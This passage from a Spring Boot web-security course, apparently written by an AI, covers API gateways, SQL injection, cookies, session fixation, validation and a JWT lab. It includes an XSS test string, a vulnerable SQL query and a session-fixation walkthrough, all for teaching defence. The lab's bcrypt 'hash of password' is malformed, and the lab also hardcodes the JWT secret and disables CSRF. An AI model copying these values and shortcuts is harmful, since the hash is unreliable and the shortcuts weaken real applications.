        M2 --Accesses--> M3[Data Access Layer]
        M3 --Connects To--> M4[Database]
        M1 & M2 & M3 & M4 are within a single deployment unit.
    end

    subgraph Microservices
        S0[Client] --> S1[API Gateway]
        S1 --Routes To--> S2[Service A]
        S1 --Routes To--> S3[Service B]
        S1 --Routes To--> S4[Service C]
        S2 --Connects To--> S2_DB[DB A]
        S3 --Connects To--> S3_DB[DB B]
        S4 --Connects To--> S4_DB[DB C]
        S2 --Communicates With (mTLS)--> S3
    end
```

-----

**Spring Boot microservices + secure API gateway:**

In a microservices setup, an **API Gateway** becomes a critical security enforcement point.

  * **API Gateway:** A single entry point for all client requests. It acts as a reverse proxy, routing requests to the appropriate microservice.
  * **Security Benefits of an API Gateway:**
      * **Authentication & Authorization:** The gateway can handle initial authentication (e.g., validating JWTs) and basic authorization before forwarding requests. This offloads these concerns from individual microservices.
      * **Rate Limiting:** Protects backend services from abuse and DDoS attacks by limiting the number of requests a client can make.
      * **SSL/TLS Termination:** Handles HTTPS for external traffic, simplifying certificate management for individual services (internal communication can then be mTLS or simple HTTP).
      * **Input Validation:** Can perform initial validation of request parameters.
      * **Logging & Monitoring:** Centralized logging of all incoming requests and responses.
      * **Cross-Cutting Concerns:** Handles other concerns like caching, logging, and metrics.

**Example with Spring Cloud Gateway:**

You can use Spring Cloud Gateway to build an API Gateway for your Spring Boot microservices.

```java
// Example Spring Cloud Gateway configuration for security
@Configuration
public class GatewayConfig {

    @Bean
    public RouteLocator customRouteLocator(RouteLocatorBuilder builder) {
        return builder.routes()
            .route("user_service", r -> r.path("/users/**")
                .filters(f -> f.stripPrefix(1)
                                .rewritePath("/users/(?<segment>.*)", "/${segment}")
                                .filter(authFilter())) // Custom authentication filter
                .uri("lb://user-service")) // Load balance to user-service
            .route("product_service", r -> r.path("/products/**")
                .filters(f -> f.stripPrefix(1)
                                .rewritePath("/products/(?<segment>.*)", "/${segment}")
                                .circuitBreaker(config -> config.setName("productCircuitBreaker")))
                .uri("lb://product-service"))
            .build();
    }

    // Example of a custom authentication filter
    @Bean
    public GlobalFilter authFilter() {
        return (exchange, chain) -> {
            // Check for Authorization header, validate JWT, etc.
            if (!exchange.getRequest().getHeaders().containsKey(HttpHeaders.AUTHORIZATION)) {
                exchange.getResponse().setStatusCode(HttpStatus.UNAUTHORIZED);
                return exchange.getResponse().setComplete();
            }
            // Proceed with the request
            return chain.filter(exchange);
        };
    }
}
```

**Securing Microservice Communication:**

  * **Mutual TLS (mTLS):** Each service authenticates the other using certificates during internal communication. This ensures that only trusted services can communicate.
  * **Token-based Security:** Services pass tokens (e.g., JWTs) to each other, allowing for fine-grained authorization.

### Core Components

Regardless of architecture, web applications rely on several core components.

  * **Web Servers:** Software that serves static content (HTML, CSS, images, JavaScript) and acts as a front-end to application servers.
      * **Apache HTTP Server:** A widely used, open-source web server.
          * **SSL Termination:** Can handle HTTPS connections and decrypt incoming traffic before forwarding it to the application server (which can then receive plain HTTP). This offloads the cryptographic overhead from the application server.
          * **Reverse Proxy:** Can act as a reverse proxy, forwarding requests to backend application servers. This hides the internal network structure, provides load balancing, and enables SSL termination.
      * **NGINX:** A high-performance web server, reverse proxy, load balancer, and HTTP cache. Known for its efficiency and ability to handle many concurrent connections.
          * **SSL Termination & Reverse Proxy Setup:** Similar to Apache, NGINX excels at these roles, making it a popular choice for securing and scaling web applications.

-----

**Diagram: Web Server (Reverse Proxy with SSL Termination)**

```mermaid
graph LR
    A[Client (Browser)] --HTTPS (Encrypted)--> B[Web Server (Nginx/Apache)]
    B --SSL Termination--> B
    B --Reverse Proxy (HTTP/Internal HTTPS)--> C[Application Server (Spring Boot)]
    C --Connects To--> D[Database]
```

-----

  * **Application Servers:** Software that executes the application's business logic, interacts with databases, and generates dynamic content.

      * **Tomcat:** The most popular open-source application server for Java servlets and JSPs. It's the default embedded server in Spring Boot.
          * **Session Handling:** Manages user sessions, typically using cookies. Secure session management is crucial to prevent session hijacking.
          * **Thread Safety:** Ensures that multiple concurrent requests are handled correctly without data corruption. Secure coding practices are essential to avoid race conditions and other concurrency issues.
      * **Jetty:** Another lightweight, embeddable open-source Java HTTP server and Servlet container. Often used in embedded scenarios and cloud-native applications.
      * **Security Considerations:** Need to be configured securely (e.g., disable unused features, strong admin passwords, restrict access to management interfaces).

  * **Databases:** Store the application's data.

      * **Common Vulnerabilities:**
          * **SQL Injection (SQLi):** Attackers inject malicious SQL code into input fields, causing the database to execute unintended commands (e.g., retrieving unauthorized data, deleting tables).
          * **Credential Leaks:** Database credentials (usernames, passwords) might be hardcoded, stored insecurely in configuration files, or exposed through misconfigurations.
          * **Insecure Configurations:** Default passwords, open ports, unpatched software, and excessive privileges.
          * **Lack of Encryption:** Data at rest (stored in the database) and data in transit (between application server and database) might not be encrypted.
      * **Java DB Connections (JDBC):**
          * **Prepared Statements:** The primary defense against SQL Injection. They pre-compile the SQL query structure, separating the SQL code from user input.
          * **Connection Pooling:** Manages database connections efficiently and securely.
          * **Secure Configuration:** Storing database credentials securely (e.g., environment variables, secret management services like HashiCorp Vault, AWS Secrets Manager) rather than directly in code or plain text files.
          * **Least Privilege:** The database user account used by the application should only have the minimum necessary permissions.

**Example of Prepared Statement in Java:**

```java
// VULNERABLE to SQL Injection
// String query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'";
// Statement stmt = connection.createStatement();
// ResultSet rs = stmt.executeQuery(query);

// SECURE - Using PreparedStatement
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
try (PreparedStatement pstmt = connection.prepareStatement(query)) {
    pstmt.setString(1, username);
    pstmt.setString(2, password);
    try (ResultSet rs = pstmt.executeQuery()) {
        // Process results
    }
} catch (SQLException e) {
    // Handle exception
}
```

-----

## 4\. Fundamental Web Security Concepts

These are the pillars upon which robust web application security is built.

### Authentication vs. Authorization

These two terms are often confused but are distinct and equally crucial.

  * **Authentication (✅): "Who are you?"**

      * **Definition:** The process of verifying the identity of a user, system, or process. It's about proving that someone is who they claim to be.
      * **Analogy:** Showing your ID card at the entrance of a building. The security guard verifies your identity against a trusted source.
      * **Implementation in Spring Security + JWT-based login:**
          * **Spring Security:** A powerful framework for adding security to Spring applications. It provides comprehensive authentication and authorization features.
          * **JWT (JSON Web Token):** A compact, URL-safe means of representing claims to be transferred between two parties. It's commonly used for stateless authentication in REST APIs and microservices.
              * **How it works:**
                1.  **Login:** User sends credentials (username/password) to the server.
                2.  **Server Authentication:** Server authenticates the user (e.g., checks against a database).
                3.  **JWT Creation:** If authenticated, the server generates a JWT. The JWT contains claims (e.g., user ID, roles, expiration time) and is digitally signed using a secret key (HMAC) or public/private key pair (RSA/ECDSA).
                4.  **JWT Return:** The JWT is sent back to the client (e.g., in an `Authorization` header, typically as a Bearer token).
                5.  **Subsequent Requests:** For every subsequent request, the client includes the JWT in the `Authorization` header.
                6.  **Server Verification:** The server verifies the JWT's signature (ensuring it hasn't been tampered with) and checks its claims (e.g., expiration). If valid, the request is authorized.
              * **Benefits:** Stateless (server doesn't need to store session info), scalable, good for microservices, mobile apps.
              * **Security Considerations:** Keep secret key secure, set short expiration times, don't put sensitive data in JWT, implement token revocation for compromised tokens.

  * **Authorization (🔐): "What are you allowed to do?"**

      * **Definition:** The process of determining whether an authenticated user is permitted to perform a specific action or access a specific resource.
      * **Analogy:** After showing your ID, the security guard checks if you have the clearance to enter a specific restricted area within the building.
      * **Implementation in Spring Security + JWT-based login:**
          * Once a user is authenticated (their identity is confirmed, often via JWT), Spring Security's authorization mechanisms come into play.
          * **Role-Based Access Control (RBAC):** Assigning roles (e.g., `ROLE_ADMIN`, `ROLE_USER`) to users and then defining access rules based on these roles.
          * **Permission-Based Access Control:** More granular, defining specific permissions (e.g., `READ_PRODUCT`, `WRITE_PRODUCT`, `DELETE_USER`).
          * **Expression-Based Access Control:** Spring Security allows powerful expressions in annotations or configuration.
              * `@PreAuthorize("hasRole('ADMIN')")`: Only users with ADMIN role can access.
              * `@PostAuthorize("returnObject.owner == authentication.name")`: Only returns if the owner matches the authenticated user.
              * `@PreFilter`, `@PostFilter`: Filters collections based on authorization.

**Real-world examples:**

  * **Gmail:**
      * **Authentication:** When you enter your Google username and password, Gmail authenticates you, verifying your identity.
      * **Authorization:** Once authenticated, you are authorized to view your emails, send new ones, access your contacts, but you are *not* authorized to view other users' inboxes or change Google's internal settings.
  * **GitHub:**
      * **Authentication:** Logging in with your GitHub username and password.
      * **Authorization:** You are authorized to push code to your own repositories, pull from public repositories, and (if added as a collaborator) push to private repositories you have access to. You are *not* authorized to push code directly to Linus Torvalds' kernel repository\!

-----

**Diagram: Authentication vs. Authorization**

```mermaid
graph TD
    subgraph Authentication
        A[User] --> B(Presents Credentials)
        B --> C{Verify Identity?}
        C --Yes--> D[User Authenticated]
        C --No--> E[Access Denied]
    end

    subgraph Authorization
        F[Authenticated User] --> G(Requests Resource/Action)
        G --> H{Is User Allowed?}
        H --Yes--> I[Access Granted]
        H --No--> J[Access Denied (Forbidden)]
    end

    D --Next Step--> F
```

-----

### Session Management

HTTP is stateless. **Sessions** are a mechanism to maintain state and track user interactions across multiple HTTP requests.

**Importance of cookies:** Cookies are the most common way to implement session management in web applications.

  * **Session Token/ID:** A unique, randomly generated string stored in a cookie on the client-side, which the server uses to identify a specific user's session.
  * **Security Attributes for Cookies:**
      * **`HttpOnly`:** Prevents client-side scripts (JavaScript) from accessing the cookie. This is a crucial defense against **Cross-Site Scripting (XSS)** attacks, as even if an attacker injects malicious JavaScript, they cannot steal the session cookie.
      * **`Secure`:** Ensures the cookie is only sent over HTTPS (encrypted) connections. Prevents the cookie from being intercepted in plain text over HTTP.
      * **`SameSite`:** Protects against **Cross-Site Request Forgery (CSRF)** attacks. It controls when cookies are sent with cross-site requests.
          * `Strict`: Cookies are only sent with requests originating from the same site as the cookie.
          * `Lax`: Cookies are sent with top-level navigations (e.g., clicking a link to the site) and GET requests, but not with POST requests from other sites. This is a good balance for many applications.
          * `None`: Cookies are sent with all cross-site requests (requires `Secure` attribute). Use with caution.
      * **`Path`:** Specifies the URL path that the cookie is valid for.
      * **`Domain`:** Specifies the domain for which the cookie is valid.
      * **`Expires`/`Max-Age`:** Sets an expiration date/time for persistent cookies. Session cookies (without these attributes) are deleted when the browser closes.

**Session Fixation and Prevention:**

  * **Session Fixation:** An attack where an attacker "fixes" a user's session ID (e.g., by providing a pre-set session ID in a malicious link). If the victim then logs in using that fixed session ID, the attacker can use the same session ID to impersonate the victim after authentication.
      * **Scenario:**
        1.  Attacker visits `example.com` and gets a session ID (e.g., `JSESSIONID=ABC`).
        2.  Attacker sends a phishing link to victim: `example.com?JSESSIONID=ABC`.
        3.  Victim clicks the link, gets the `JSESSIONID=ABC` cookie, and then logs in.
        4.  The server validates the login but continues using `JSESSIONID=ABC` for the authenticated session.
        5.  Attacker now has a valid session ID for the authenticated victim.
  * **Prevention:** The most effective defense is to **regenerate the session ID after successful authentication**. Spring Security does this by default.
      * When the user logs in, the application should invalidate the old, unauthenticated session and create a brand new session with a new, random ID.

### Input Validation & Output Encoding

These are critical defenses against injection attacks and cross-site scripting.

  * **Input Validation:** The process of ensuring that data received from the user (or any external source) conforms to expected format, type, and range before it is processed by the application.
      * **Purpose:** Prevents malicious data from entering the system.
      * **"Whitelist" approach:** The safest strategy. Instead of trying to identify and block "bad" characters (blacklist), define what *good* input looks like and reject everything else.
          * **Example:** If a username should only contain alphanumeric characters, allow only `[a-zA-Z0-9]`. Reject anything with special characters.
      * **Frontend Validation:** Performed in the browser using JavaScript. Provides immediate feedback to the user and improves user experience. **Crucially, it is for UX only and can be easily bypassed by an attacker.**
      * **Backend Java Validation:** **Absolutely essential and must always be performed.** This is the ultimate line of defense.
          * **Spring Boot:** Use Spring's validation API (`javax.validation` / `jakarta.validation` with Hibernate Validator).
            ```java
            // Example using Bean Validation in a Spring Boot DTO
            public class UserDto {
                @NotNull @Size(min = 3, max = 50)
                @Pattern(regexp = "^[a-zA-Z0-9]+$", message = "Username must be alphanumeric")
                private String username;

                @Email(message = "Invalid email format")
                private String email;

                // ... getters and setters
            }

            @PostMapping("/register")
            public ResponseEntity<String> registerUser(@Valid @RequestBody UserDto userDto, BindingResult bindingResult) {
                if (bindingResult.hasErrors()) {
                    // Handle validation errors
                    return ResponseEntity.badRequest().body("Validation failed: " + bindingResult.getAllErrors());
                }
                // Process valid userDto
                return ResponseEntity.ok("User registered successfully");
            }
            ```
  * **Output Encoding (Contextual Output Encoding):** The process of converting special characters into their entity equivalents before displaying user-supplied data in a web page.
      * **Purpose:** Prevents the browser from interpreting user-supplied data as executable code (e.g., HTML tags, JavaScript). This is the primary defense against **Cross-Site Scripting (XSS)**.
      * **Example:** If a user inputs `<script>alert('XSS')</script>`, output encoding would convert it to `&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;`. The browser then displays it as plain text rather than executing it.
      * **Contextual Encoding:** The type of encoding depends on where the data is being rendered (e.g., HTML body, HTML attribute, JavaScript string, URL). Using the wrong encoding can still lead to XSS.
      * **Spring Boot/Thymeleaf/JSP:** Modern templating engines (like Thymeleaf, Freemarker, JSP with JSTL) perform auto-encoding by default, which is a huge security benefit.
        ```html
        <p th:text="${userSuppliedComment}"></p>

        <p><c:out value="${userSuppliedComment}"/></p>
        ```

### Error Handling & Logging

Proper error handling and logging are vital for security.

  * **Why custom error pages matter:**

      * **Prevents Information Disclosure:** Default error pages (e.g., Tomcat's default 500 page, Spring's Whitelabel Error Page in dev mode) often contain sensitive information like stack traces, server versions, file paths, and database errors. This information can be invaluable to an attacker.
      * **Improved User Experience:** A friendly, custom error page is better than a technical stack trace.
      * **Consistency:** Maintains the application's branding and user experience.
      * **Fix:** Configure Spring Boot to use custom error pages (e.g., `error.html` in `src/main/resources/static/error`).
        ```properties
        # application.properties
        server.error.whitelabel.enabled=false # Disable default Spring error page
        server.error.path=/error # Configure custom error controller/path
        ```
        ```java
        // Custom error controller to handle specific errors or simply redirect
        @Controller
        public class CustomErrorController implements ErrorController {

            @RequestMapping("/error")
            public String handleError(HttpServletRequest request) {
                Object status = request.getAttribute(RequestDispatcher.ERROR_STATUS_CODE);

                if (status != null) {
                    Integer statusCode = Integer.valueOf(status.toString());
                    if(statusCode == HttpStatus.NOT_FOUND.value()) {
                        return "error/404"; // returns 404.html template
                    } else if(statusCode == HttpStatus.INTERNAL_SERVER_ERROR.value()) {
                        return "error/500"; // returns 500.html template
                    }
                }
                return "error/error"; // Generic error page
            }
        }
        ```

  * **Don't leak server info in stack traces:** As mentioned, stack traces can reveal sensitive details about your application's internal structure, dependencies, and environment. Ensure they are never exposed directly to the client in a production environment.

      * **Fix:**
          * Always return generic error messages to the user.
          * Log detailed stack traces *server-side* for debugging.
          * In Spring Boot, configure `server.error.include-stacktrace=never` and `server.error.include-message=never` in production profiles.

  * **Logging with masking (e.g., don’t log passwords\!):**

      * **Importance:** Logs are crucial for incident detection, forensics, and debugging. However, logging sensitive information can be a security risk.
      * **Common Mistakes:** Logging passwords, credit card numbers, API keys, session IDs, or personally identifiable information (PII) in plain text.
      * **Fixes:**
          * **Masking/Redaction:** Implement logic to replace sensitive data with asterisks or a placeholder before logging (e.g., `password: ****`).
          * **Hashing/Encryption:** If sensitive data *must* be logged, hash or encrypt it first.
          * **Contextual Logging:** Only log what's necessary.
          * **Log Level Management:** Use appropriate log levels (DEBUG, INFO, WARN, ERROR) and ensure DEBUG logs are not enabled in production unless absolutely necessary and for a limited time.
          * **Secure Log Storage:** Store logs securely, restrict access, and implement log rotation and retention policies.

### Secure Coding Principles

These are overarching philosophies for building secure software.

  * **Least Privilege:**

      * **Definition:** Granting users, processes, or systems only the minimum necessary permissions to perform their intended function, and nothing more.
      * **Analogy:** In a company, a new intern is given access only to the files and systems directly relevant to their tasks, not to the CEO's confidential documents.
      * **Spring Boot examples:**
          * **Database User:** The user account your Spring Boot application uses to connect to the database should only have `SELECT`, `INSERT`, `UPDATE`, `DELETE` permissions on the tables it needs to access, not `DROP TABLE` or `GRANT ALL PRIVILEGES`.
          * **File System Permissions:** The user running the Spring Boot application on the server should only have read/write access to its own application directory, log files, etc., not to critical system directories.
          * **API Endpoints:** A regular user role should not be able to access administrator-only endpoints. Spring Security's authorization configuration enforces this:
            ```java
            @Configuration
            @EnableWebSecurity
            public class SecurityConfig {
                @Bean
                public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
                    http
                        .authorizeHttpRequests(authorize -> authorize
                            .requestMatchers("/api/admin/**").hasRole("ADMIN") // Admin role needed
                            .requestMatchers("/api/users/**").hasAnyRole("USER", "ADMIN") // User or Admin
                            .anyRequest().authenticated() // All other requests need authentication
                        )
                        // ... other security config
                        .csrf(AbstractHttpConfigurer::disable); // For simplicity, disable CSRF for API for now, but not for web forms!
                    return http.build();
                }
            }
            ```

  * **Defense in Depth:**

      * **Definition:** Implementing multiple layers of security controls, so that if one layer fails, another layer can prevent a breach. It's like having multiple lines of defense.
      * **Analogy:** A medieval castle has moats, high walls, drawbridges, guards, and a strong keep. If an attacker breaches one defense, they still face others.
      * **Spring Boot examples:**
          * **UI Layer:** Frontend input validation (for UX, not security). Content Security Policy (CSP) to prevent XSS.
          * **Web Server (Reverse Proxy):** WAF (Web Application Firewall), DDoS protection, SSL/TLS termination, rate limiting.
          * **Application Layer (Spring Boot):** Server-side input validation, output encoding, authentication, authorization, secure session management, secure APIs, exception handling.
          * **Database Layer:** Stored procedures, parameterized queries (prepared statements), data encryption at rest, strong database user passwords, least privilege for DB users.
          * **Network Layer:** Firewalls, network segmentation.
          * **OS/Infrastructure:** OS hardening, regular patching.

-----

**Diagram: Defense in Depth**

```mermaid
graph TD
    subgraph Layers of Defense
        A[External Firewall/WAF] --> B[Load Balancer]
        B --> C[Reverse Proxy (Nginx/Apache)]
        C --> D[Spring Boot Application]
        D --> E[Database]

        A --DDoS Protection--> A
        C --SSL Termination--> D
        D --Authentication/Authorization/Validation--> E
        E --Encryption at Rest--> E

        style A fill:#ff9999,stroke:#333,stroke-width:1px
        style B fill:#99ff99,stroke:#333,stroke-width:1px
        style C fill:#9999ff,stroke:#333,stroke-width:1px
        style D fill:#ffff99,stroke:#333,stroke-width:1px
        style E fill:#cc99ff,stroke:#333,stroke-width:1px
    end
```

-----

  * **Fail-Safe Defaults:**
      * **Definition:** When a system experiences an error or failure, it should default to a secure state (e.g., deny access, log out). It's better to be overly cautious than to accidentally grant unauthorized access.
      * **Analogy:** A locked door without power remains locked. If the power fails, the door doesn't automatically open.
      * **Spring Boot examples:**
          * **Deny-by-Default Authorization:** In Spring Security, the default behavior for unconfigured URLs or methods is often to deny access. You explicitly allow what's permitted, rather than explicitly denying what's forbidden.
            ```java
            // Example: Any request not matched by specific rules is denied unless authenticated
            .anyRequest().authenticated() // Or .denyAll()
            ```
          * **Session Timeouts:** Automatically logs out users after a period of inactivity. If the session expires, the user must re-authenticate.
            ```properties
            # application.properties
            server.servlet.session.timeout=30m # Session timeout after 30 minutes of inactivity
            ```
          * **Default Configuration:** Ensure default configurations for databases, application servers, and frameworks are hardened (e.g., change default passwords, disable unnecessary services).

-----

## 🧪 For Each Module, Include:

### 📘 Short Notes + Diagram PDF

(As an AI, I cannot directly generate or attach PDF files. However, I have embedded Mermaid diagrams directly into the text for visualization. You can copy the Mermaid code and use online Mermaid editors or tools like Typora to generate images/PDFs if needed.)

### 🔧 Java Spring Boot Lab with:

#### JWT Auth

We'll build a basic Spring Boot application with JWT-based authentication.

**Tech Stack:** Java 17+, Spring Boot 3.x, Spring Security 6.x, JWT (using `jjwt` library), Maven/Gradle.

**Steps:**

1.  **Project Setup:**
      * Create a new Spring Boot project (e.g., using Spring Initializr: `https://start.spring.io/`).
      * Dependencies: Spring Web, Spring Security, Lombok, JJWT (Jackson Databind, JAXB API included for JJWT).
        **`pom.xml` additions:**
        ```xml
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-security</artifactId>
        </dependency>
        <dependency>
            <groupId>io.jsonwebtoken</groupId>
            <artifactId>jjwt-api</artifactId>
            <version>0.11.5</version>
        </dependency>
        <dependency>
            <groupId>io.jsonwebtoken</groupId>
            <artifactId>jjwt-impl</artifactId>
            <version>0.11.5</version>
            <scope>runtime</scope>
        </dependency>
        <dependency>
            <groupId>io.jsonwebtoken</groupId>
            <artifactId>jjwt-jackson</artifactId>
            <version>0.11.5</version>
            <scope>runtime</scope>
        </dependency>
        <dependency>
            <groupId>jakarta.xml.bind</groupId>
            <artifactId>jakarta.xml.bind-api</artifactId>
        </dependency>
        <dependency>
            <groupId>org.glassfish.jaxb</groupId>
            <artifactId>jaxb-runtime</artifactId>
        </dependency>
        ```
2.  **`application.properties`:**
    ```properties
    jwt.secret=ThisIsAReallyLongAndSecureSecretKeyForJWTAuthenticationDemo1234567890
    jwt.expiration=86400000 # 24 hours in milliseconds
    ```
3.  **JWT Utility Class (`JwtUtil.java`):**
    ```java
    import io.jsonwebtoken.Claims;
    import io.jsonwebtoken.Jwts;
    import io.jsonwebtoken.SignatureAlgorithm;
    import io.jsonwebtoken.security.Keys;
    import org.springframework.beans.factory.annotation.Value;
    import org.springframework.security.core.userdetails.UserDetails;
    import org.springframework.stereotype.Component;

    import javax.annotation.PostConstruct;
    import java.security.Key;
    import java.util.Date;
    import java.util.HashMap;
    import java.util.Map;
    import java.util.function.Function;

    @Component
    public class JwtUtil {

        @Value("${jwt.secret}")
        private String secret;

        @Value("${jwt.expiration}")
        private long expiration;

        private Key key;

        @PostConstruct
        public void init() {
            this.key = Keys.hmacShaKeyFor(secret.getBytes());
        }

        public String extractUsername(String token) {
            return extractClaim(token, Claims::getSubject);
        }

        public Date extractExpiration(String token) {
            return extractClaim(token, Claims::getExpiration);
        }

        public <T> T extractClaim(String token, Function<Claims, T> claimsResolver) {
            final Claims claims = extractAllClaims(token);
            return claimsResolver.apply(claims);
        }

        private Claims extractAllClaims(String token) {
            return Jwts.parserBuilder().setSigningKey(key).build().parseClaimsJws(token).getBody();
        }

        private Boolean isTokenExpired(String token) {
            return extractExpiration(token).before(new Date());
        }

        public String generateToken(UserDetails userDetails) {
            Map<String, Object> claims = new HashMap<>();
            return createToken(claims, userDetails.getUsername());
        }

        private String createToken(Map<String, Object> claims, String subject) {
            return Jwts.builder()
                    .setClaims(claims)
                    .setSubject(subject)
                    .setIssuedAt(new Date(System.currentTimeMillis()))
                    .setExpiration(new Date(System.currentTimeMillis() + expiration))
                    .signWith(key, SignatureAlgorithm.HS256)
                    .compact();
        }

        public Boolean validateToken(String token, UserDetails userDetails) {
            final String username = extractUsername(token);
            return (username.equals(userDetails.getUsername()) && !isTokenExpired(token));
        }
    }
    ```
4.  **User Details Service (`MyUserDetailsService.java`):**
    ```java
    import org.springframework.security.core.userdetails.User;
    import org.springframework.security.core.userdetails.UserDetails;
    import org.springframework.security.core.userdetails.UserDetailsService;
    import org.springframework.security.core.userdetails.UsernameNotFoundException;
    import org.springframework.stereotype.Service;

    import java.util.ArrayList;

    @Service
    public class MyUserDetailsService implements UserDetailsService {

        @Override
        public UserDetails loadUserByUsername(String username) throws UsernameNotFoundException {
            // In a real app, fetch user from database
            if ("user".equals(username)) {
                // Password "password" encoded with BCrypt: $2a$10$w095S6o/tS7W9k1X4B6K.OQ7.Q1y3.0q2m.4D.1Y.0X.3P.7V.9P.2T.6R.5L
                return new User("user", "$2a$10$w095S6o/tS7W9k1X4B6K.OQ7.Q1y3.0q2m.4D.1Y.0X.3P.7V.9P.2T.6R.5L",
                        new ArrayList<>()); // No roles for simplicity
            } else if ("admin".equals(username)) {
                 return User.withUsername("admin")
                        .password("$2a$10$w095S6o/tS7W9k1X4B6K.OQ7.Q1y3.0q2m.4D.1Y.0X.3P.7V.9P.2T.6R.5L") // "password"
                        .roles("ADMIN")
                        .build();
            }
            throw new UsernameNotFoundException("User not found with username: " + username);
        }
    }
    ```
    *(To generate BCrypt hash for "password", you can use `BCryptPasswordEncoder encoder = new BCryptPasswordEncoder(); System.out.println(encoder.encode("password"));` in a main method)*
5.  **JWT Request Filter (`JwtRequestFilter.java`):**
    ```java
    import jakarta.servlet.FilterChain;
    import jakarta.servlet.ServletException;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    import org.springframework.security.authentication.UsernamePasswordAuthenticationToken;
    import org.springframework.security.core.context.SecurityContextHolder;
    import org.springframework.security.core.userdetails.UserDetails;
    import org.springframework.security.web.authentication.WebAuthenticationDetailsSource;
    import org.springframework.stereotype.Component;
    import org.springframework.web.filter.OncePerRequestFilter;

    import java.io.IOException;

    @Component
    public class JwtRequestFilter extends OncePerRequestFilter {

        private final MyUserDetailsService userDetailsService;
        private final JwtUtil jwtUtil;

        public JwtRequestFilter(MyUserDetailsService userDetailsService, JwtUtil jwtUtil) {
            this.userDetailsService = userDetailsService;
            this.jwtUtil = jwtUtil;
        }

        @Override
        protected void doFilterInternal(HttpServletRequest request, HttpServletResponse response, FilterChain chain)
                throws ServletException, IOException {

            final String authorizationHeader = request.getHeader("Authorization");

            String username = null;
            String jwt = null;

            if (authorizationHeader != null && authorizationHeader.startsWith("Bearer ")) {
                jwt = authorizationHeader.substring(7);
                username = jwtUtil.extractUsername(jwt);
            }

            if (username != null && SecurityContextHolder.getContext().getAuthentication() == null) {

                UserDetails userDetails = this.userDetailsService.loadUserByUsername(username);

                if (jwtUtil.validateToken(jwt, userDetails)) {

                    UsernamePasswordAuthenticationToken usernamePasswordAuthenticationToken = new UsernamePasswordAuthenticationToken(
                            userDetails, null, userDetails.getAuthorities());
                    usernamePasswordAuthenticationToken
                            .setDetails(new WebAuthenticationDetailsSource().buildDetails(request));
                    SecurityContextHolder.getContext().setAuthentication(usernamePasswordAuthenticationToken);
                }
            }
            chain.doFilter(request, response);
        }
    }
    ```
6.  **Security Configuration (`SecurityConfig.java`):**
    ```java
    import org.springframework.context.annotation.Bean;
    import org.springframework.context.annotation.Configuration;
    import org.springframework.security.authentication.AuthenticationManager;
    import org.springframework.security.authentication.ProviderManager;
    import org.springframework.security.authentication.dao.DaoAuthenticationProvider;
    import org.springframework.security.config.annotation.web.builders.HttpSecurity;
    import org.springframework.security.config.annotation.web.configuration.EnableWebSecurity;
    import org.springframework.security.config.http.SessionCreationPolicy;
    import org.springframework.security.crypto.bcrypt.BCryptPasswordEncoder;
    import org.springframework.security.crypto.password.PasswordEncoder;
    import org.springframework.security.web.SecurityFilterChain;
    import org.springframework.security.web.authentication.UsernamePasswordAuthenticationFilter;
    import org.springframework.security.config.annotation.web.configurers.AbstractHttpConfigurer;

    @Configuration
    @EnableWebSecurity
    public class SecurityConfig {

        private final MyUserDetailsService myUserDetailsService;
        private final JwtRequestFilter jwtRequestFilter;

        public SecurityConfig(MyUserDetailsService myUserDetailsService, JwtRequestFilter jwtRequestFilter) {
            this.myUserDetailsService = myUserDetailsService;
            this.jwtRequestFilter = jwtRequestFilter;
        }

        @Bean
        public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
            http
                .csrf(AbstractHttpConfigurer::disable) // Disable CSRF for stateless APIs
                .authorizeHttpRequests(authorize -> authorize
                    .requestMatchers("/authenticate").permitAll() // Allow unauthenticated access to authenticate endpoint
                    .requestMatchers("/admin/**").hasRole("ADMIN") // Require ADMIN role for /admin/**
                    .anyRequest().authenticated() // All other requests require authentication
                )
                .sessionManagement(session -> session
                    .sessionCreationPolicy(SessionCreationPolicy.STATELESS) // Use stateless sessions for JWT
                );

            http.addFilterBefore(jwtRequestFilter, UsernamePasswordAuthenticationFilter.class);

            return http.build();
        }

        @Bean
        public AuthenticationManager authenticationManager(MyUserDetailsService userDetailsService, PasswordEncoder passwordEncoder) {
            DaoAuthenticationProvider authenticationProvider = new DaoAuthenticationProvider();
            authenticationProvider.setUserDetailsService(userDetailsService);
            authenticationProvider.setPasswordEncoder(passwordEncoder);
            return new ProviderManager(authenticationProvider);
        }

        @Bean
        public PasswordEncoder passwordEncoder() {
            return new BCryptPasswordEncoder();
        }
    }
    ```
7.  **Authentication Request/Response DTOs and Controller:**
    ```java
    import lombok.AllArgsConstructor;
    import lombok.Data;
    import lombok.NoArgsConstructor;
    import org.springframework.http.ResponseEntity;
    import org.springframework.security.authentication.AuthenticationManager;
    import org.springframework.security.authentication.BadCredentialsException;
    import org.springframework.security.authentication.UsernamePasswordAuthenticationToken;
    import org.springframework.security.core.userdetails.UserDetails;
    import org.springframework.web.bind.annotation.PostMapping;
    import org.springframework.web.bind.annotation.RequestBody;
    import org.springframework.web.bind.annotation.RestController;

    @Data
    @AllArgsConstructor
    @NoArgsConstructor
    class AuthenticationRequest {
        private String username;
        private String password;
    }

    @Data
    @AllArgsConstructor
    class AuthenticationResponse {
        private final String jwt;
    }

    @RestController
    public class AuthenticationController {

        private final AuthenticationManager authenticationManager;
        private final MyUserDetailsService userDetailsService;
        private final JwtUtil jwtUtil;

        public AuthenticationController(AuthenticationManager authenticationManager, MyUserDetailsService userDetailsService, JwtUtil jwtUtil) {
            this.authenticationManager = authenticationManager;
            this.userDetailsService = userDetailsService;
            this.jwtUtil = jwtUtil;
        }

        @PostMapping("/authenticate")
        public ResponseEntity<?> createAuthenticationToken(@RequestBody AuthenticationRequest authenticationRequest) throws Exception {
            try {
                authenticationManager.authenticate(
                        new UsernamePasswordAuthenticationToken(authenticationRequest.getUsername(), authenticationRequest.getPassword())
                );
            } catch (BadCredentialsException e) {
                throw new Exception("Incorrect username or password", e);
            }

            final UserDetails userDetails = userDetailsService.loadUserByUsername(authenticationRequest.getUsername());
            final String jwt = jwtUtil.generateToken(userDetails);

            return ResponseEntity.ok(new AuthenticationResponse(jwt));
        }
    }
    ```
8.  **Example Protected Controller:**
    ```java
    import org.springframework.http.ResponseEntity;
